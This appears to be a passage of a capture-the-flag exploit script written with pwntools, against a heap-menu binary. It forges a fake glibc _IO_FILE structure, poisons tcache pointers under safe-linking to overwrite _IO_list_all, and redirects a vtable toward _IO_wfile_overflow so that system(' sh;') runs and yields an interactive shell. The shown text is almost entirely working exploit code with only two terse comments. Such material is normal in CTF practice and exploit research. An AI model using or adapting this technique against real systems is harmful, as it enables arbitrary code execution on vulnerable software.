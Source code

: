 ```py
edit(6,p64(0)+p64(0x461))

# construct io_file
fake_io_addr = heap_base + 0x2f0
b_addr = fake_io_addr + 0xd0 - 0x68
system_addr = libc_base + libc.sym["system"]

fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ba60)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x215F58-0x40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)
create(0,b"a",p64(0)*2 + b"  sh;".ljust(0x8,b"\x00"))
create(0,b"a",p64(0)+p64(0)+p64(2))
create(0,b"a",p64(0)*3)
create(0,b"a",p64(0)*3)
create(0,b"a",p64(0)*3)
create(0,b"a",p64(0)*2+p64(fake_io_addr))
create(0,b"a",p64(0)*3)
create(0,b"a",p64(system_addr)+p64(libc_base + 0x202228)+p64(b_addr))

# modify fake_io_file + 0x80
lock_ptr = fake_io_addr + 0x80
fd4 = lock_ptr^(heap_base//0x1000)
create(7,b"||"+b"a"*0xd,b"a"*0x11+p32(fd4%0x100000000))
create(6,b"||"+b"a"*0xd,b"a"*0x10)
create(5,b"||"+b"a"*0xd,b"a"*0x10)
delete(5)
delete(6)
complete(7)
load(7,7)
load(0,5)
load(0,6)
edit(6,p64(0)+p64(libc_base + 0x205700))

io_list_all = libc_base + 0x2044c0
fd3 = io_list_all^(heap_base//0x1000)

create(7,b"||"+b"a"*0xd,b"a"*0x11+p64(fd3)[:6])
create(6,b"||"+b"a"*0xd,b"a"*0x10)
create(5,b"a"*0xd,b"a"*0x8)

complete(5)
delete(6)
complete(7)
load(9,7)
load(8,5)

load(8,6)

edit(6,p64(fake_io_addr))
# trigger
delete(10)

p.interactive()
```